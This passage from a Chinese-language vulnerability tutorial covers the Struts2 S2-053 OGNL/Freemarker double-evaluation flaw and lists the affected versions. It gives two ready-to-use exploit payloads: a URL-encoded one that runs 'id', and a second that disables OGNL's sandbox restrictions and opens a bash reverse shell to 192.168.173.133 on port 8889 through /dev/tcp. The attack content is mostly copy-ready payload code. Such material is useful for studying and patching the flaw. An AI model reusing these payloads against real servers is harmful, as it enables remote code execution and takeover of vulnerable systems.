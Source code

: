 ### 4.17 S2-053远程代码执行漏洞

#### 漏洞原理

##### Struts2在使用Freemarker模板引擎的时候，同时允许解析OGNL表达式。导致用户输入的数据本身不会被OGNL解析，但由于被Freemarker解析一次之后变成离开一个表达式，被OGNL解析第二次，导致任意命令执行漏洞。

#### 影响版本

```php
Struts 2.0.1-2.3.33
Struts 2.5-2.5.10
```

#### 启动漏洞

![image-20210711201400818](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-66a8422d3c2008db9c9c8f7b1cec9883d0d59e7f.png)

![image-20210711201449481](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-d272272de1e2b129ec6b7f841422d5f6bd77a35e.png)

#### poc-1

```php
redirectUri=%25%7B%28%23dm%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS%29.%28%23_memberAccess%3F%28%23_memberAccess%3D%23dm%29%3A%28%28%23container%3D%23context%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D%29.%28%23ognlUtil%3D%23container.getInstance%28%40com.opensymphony.xwork2.ognl.OgnlUtil%40class%29%29.%28%23context.setMemberAccess%28%23dm%29%29%29%29.%28%23cmds%3D%28%7B%27%2Fbin%2Fbash%27%2C%27-c%27%2C%27id%27%7D%29%29.%28%23p%3Dnew+java.lang.ProcessBuilder%28%23cmds%29%29.%28%23process%3D%23p.start%28%29%29.%28%40org.apache.commons.io.IOUtils%40toString%28%23process.getInputStream%28%29%29%29%7D%0A
```

![image-20210711201616445](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-a239dc6426594056a741cf5b5ed1d0e5eda95d1b.png)

##### poc-2

```php
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='bash -i &gt;&amp; /dev/tcp/192.168.173.133/8889 0&gt;&amp;1').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}
```

![image-20210711203146633](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-b16c604d8631855ef22004f4bbc650b2bb890e52.png)

### 4.18 S2-059远程代码执行漏洞

#### 漏洞原理
